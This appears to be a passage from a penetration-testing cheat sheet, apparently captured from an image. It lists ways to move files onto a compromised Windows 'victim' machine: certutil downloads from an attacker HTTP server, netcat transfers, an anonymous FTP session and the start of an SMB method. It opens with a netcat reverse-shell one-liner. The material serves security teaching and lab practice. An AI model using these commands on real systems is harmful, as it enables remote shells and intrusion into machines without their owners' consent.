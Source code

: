 ``` nc -e /bin/sh [IPADDR] [PORT] ```
        Victim machine command:
        
        	
      ```  certutil.exe -urlcache -split -f http://10.10.10.1:8080/FiletoTransfer FiletoTransfer  ```

        Netcat

        This method is similar to the one used in netcat with linux. In order to make the transfer in this way we must have the netcat binary for our windows.



        Victim machine command:
        
        	
     ```   nc.exe -lvp 4444 > FiletoTransfer  ```

        Attacking machine command:
        
        	
   ```     nc 10.10.10.2 4444 -w 3 < FiletoTransfer  ```

        FTP

        We will use a temporary FTP to host our file.
        Windows has an FTP client pre-installed so we will connect and download the desired file. Our shell may not be interactive and we have to use a command file to connect and download the file.



        Attacking machine command:
        
        	
```shell   twistd -n ftp -r ```

        Victim machine command:

```console
        ftp
        open 10.10.10.1 2121
        anonymous
        get FiletoTransfer
        bye
        
```

        SMB

        Through impacket-smbserver we will mount a smb folder on our machine, which we will access from the victim machine, downloading the file.
